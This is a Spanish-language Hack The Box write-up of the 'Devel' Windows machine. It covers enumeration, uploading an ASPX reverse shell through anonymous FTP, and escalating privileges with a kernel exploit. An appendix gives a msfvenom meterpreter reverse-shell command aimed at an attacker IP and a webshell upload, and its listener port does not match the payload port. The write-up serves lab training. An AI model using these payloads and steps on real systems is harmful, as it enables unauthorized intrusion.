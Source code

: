 ```yaml
---
layout: single
title: Devel - Hack The Box
excerpt: "Devel es una maquina windows que se explota mediante un servicio FTP que tiene subida arbitraria de archivos, por medio de esta debilidad, se logra establecer una conexión al equipo victima y ejecutar comandos, luego se logra escalar privilegios por medio de un exploit conocido basado en la versión del sistema operativo."
date: 2021-10-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-devel/devel-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - ftp
  - windows
  - arbitrary file upload
---
```


![](/assets/images/htb-writeup-devel/devel-logo.png)


Esta es una maquina de nivel facil segun hack the box, donde por medio de un servicio FTP se logra subir archivos que permiten ganar acceso al sistema.

## Enumeración
vamos a comenzar enumerando el sistema con nmap para descubrir puertos y servicios corriendo en dichos puertos

```
nmap -sC -sV 10.10.10.5
```

el escaneo de nmap nos reporta los puertos 21(ftp) y 80(http) abiertos

```
Nmap scan report for 10.10.10.5
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

nmap fue capaz de identificar que el puerto 21 permite logearse con el usuario "Anonymous", el cual no se necesita contraseña para ingresar. 

# Acceso y explotación

Nos conectamos al servicio FTP
```
ftp 10.10.10.5
```
y observamos 3 archivos
![](/assets/images/htb-writeup-devel/devel1.png)

Si navegamos por el puerto 80, veremos la imagen clasica del servicio IIS de windows, sin embargo, al entrar al servicio FTP está la misma imagen (welcome.png) que nos muestra mediante el puerto 80. Por lo que una vía pontencial de explotación es intentar subir una reverse shell.

Buscando en internet "aspx reverse shell github" encontramos una que nos sirve
![](/assets/images/htb-writeup-devel/devel2.png)

por lo que la descargamos en nuestra maquina de atacante 
![](/assets/images/htb-writeup-devel/devel3.png)

y cambiamos la IP y puerto local a la que nos queremos conectar.
![](/assets/images/htb-writeup-devel/devel6.png)

ahora, nos conectamos al servicio FTP (FTP IP-VICTIMA) y ejecutamos el siguiente comando para subir nuestra shell que acabamos de descargar
```
put shell.aspx
```

una vez subida, nos tendremos que poner en escucha con netcat

![](/assets/images/htb-writeup-devel/devel7.png)

y ejecutamos el archivo que subimos desde la web
![](/assets/images/htb-writeup-devel/devel5.png)

y ya logramos ganar acceso al sistema
![](/assets/images/htb-writeup-devel/devel4.png)


# Escalación de privilegios
Una vez ganado acceso el sistema, podemos ver ante que SO nos estamos enfrentando, con el comando
```
systeminfo
```

Según la información del SO, estamos ante un Windows 7 6.1.7600
![](/assets/images/htb-writeup-devel/devel8.png)

buscando en internet un exploit para esta versión, encontramos uno, asi que vamos a probarlo 
![](/assets/images/htb-writeup-devel/devel9.png)

Para ejecutar este exploit, primero necesita ser compilado, en caso de que no tengas la utilidad *mingw-w64* (la cual sirve para compilar exploits de windows en linux) puedes instalarla con el siguiente comando
```
sudo apt-get install mingw-w64
```

ahora solo queda subir el exploit mediante FTP y ejecutarlo en la maquina victima. Nota: cuando ingresemos por FTP, debemos ejecutar el comando "binary" dado que se suelen perder datos de archivos al subirlo, con este comando hacemos que se suba intacto.
![](/assets/images/htb-writeup-devel/devel10.png)

una vez subido, nos dirigimos a la ruta C:\inetpub\wwwroot y ejecutamos el exploit que acabamos de subir, y nos convertimos en el usuario **nt authority\system**
![](/assets/images/htb-writeup-devel/devel11.png)



 
# Anexos

## shell con metasploit
creamos el payload
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.6 lport=4444 -f aspx -o shell.aspx
```

nos ponemos en escucha
1. ```msfconsole```
2. ```use exploit/multi/handler```
3. ```set payload windows/meterpreter/reverse_tcp```
4. ```set lhost 10.10.16.6```
5. ```set lport 1234```
6. ```run```


## Pseudo consola para ejecución de comandos
Parrot y Kali linux traen una pseudo consola para en lenguaje aspx que nos permite ejecutar comandos, para encontrla podemos escribir el siguiente comando
```
locate cmdasp.aspx
```

este archivo lo subimos mediante FTP y tendremos ejecución de comandos, para luego establecer una reverse shell a nuestro equipo.
